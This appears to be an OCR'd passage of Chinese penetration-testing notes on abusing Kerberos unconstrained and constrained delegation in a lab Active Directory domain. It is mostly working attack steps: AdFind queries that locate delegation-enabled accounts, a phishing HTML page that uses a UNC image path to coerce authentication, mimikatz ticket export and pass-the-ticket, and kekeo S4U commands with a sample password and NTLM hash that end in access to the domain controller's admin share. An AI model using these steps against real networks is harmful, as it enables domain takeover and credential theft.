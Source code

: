~~~

判断查询：
查询域内设置了非约束委派的服务账户：
AdFind -b "DC=god,DC=org" -f "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" dn
查询域内设置了非约束委派的机器账户:
AdFind -b "DC=god,DC=org" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" dn

利用步骤：
1、域控与委派机器通讯
主动：
net use \\webserver
钓鱼：
http://192.168.3.31/31.html
<!DOCTYPE html>
<html>
<head>
  <title></title>
</head>
<body>
  <img src="file:///\\192.168.3.31\2">
</body>
</html>
2、导出票据到本地
mimikatz sekurlsa::tickets /export
3、导入票据到内存
mimikatz kerberos::ptt [0;13da31]-2-0-60a00000-Administrator@krbtgt-GOD.ORG.kirbi
4、连接通讯域控
dir \\owa2010cn-god\c$

-约束委派
原理：
由于非约束委派的不安全性，微软在windows server 2003中引入了约束委派，对Kerberos协议进行了拓展，
引入了SService for User to Self (S4U2Self)和 Service for User to Proxy (S4U2proxy)。

利用场景：
如果攻击者控制了服务A的账号，并且服务A配置了到域控的CIFS服务的约束性委派。
则攻击者可以先使用S4u2seflt申请域管用户（administrator）访问A服务的ST1，
然后使用S4u2Proxy以administrator身份访问域控的CIFS服务，即相当于控制了域控。

复现配置：
1、机器设置仅信任此计算机指定服务-cifs
2、用户设置仅信任此计算机指定服务-cifs

判断查询：
查询机器用户（主机）配置约束委派
AdFind -b "DC=god,DC=org" -f "(&(samAccountType=805306369)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto
查询服务账户（主机）配置约束委派
AdFind -b "DC=god,DC=org" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto

利用步骤：
1、获取用户的票据
kekeo "tgt::ask /user:batmanfuture /domain:god.org /password::A@2000chusheng /ticket:administrator.kirbi" "exit"
kekeo "tgt::ask /user:webadmin /domain:god.org /NTLM:518b98ad4178a53695dc997aa02d455c /ticket:administrator.kirbi" "exit"
2、利用用户票据获取域控票据
kekeo "tgs::s4u /tgt:TGT_batmanfuture@GOD.ORG_krbtgt~god.org@GOD.ORG.kirbi /user:Administrator@god.org /service:cifs/owa" "exit"
~~~